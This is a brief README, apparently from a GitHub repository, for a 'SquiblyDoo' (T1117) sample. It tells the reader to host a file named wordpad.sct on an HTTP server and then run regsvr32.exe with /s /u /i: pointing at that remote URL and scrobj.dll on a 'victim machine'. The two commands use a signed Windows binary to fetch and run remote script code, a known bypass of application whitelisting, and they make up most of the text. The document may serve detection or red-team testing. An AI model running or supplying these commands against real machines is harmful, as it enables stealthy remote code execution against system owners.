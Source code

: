 # SquiblyDoo/T1117 Sample

On a machine with an HTTP Server, place the file "wordpad.sct" in the a served folder that can be accessed by the test/victim machine. If no HTTP Server is available you can use web_server.py from my repo (https://github.com/ColbyBurkett/Python-web-server). The serving folder is the same folder that web_server.py is running from.
** Launch this from the victim machine: **
```
regsvr32.exe /s /u /i:http://{serving IP:port}/wordpad.sct scrobj.dll
cmd.exe /c regsvr32.exe /s /u /i:http://{serving IP:port}/wordpad.sct scrobj.dll
```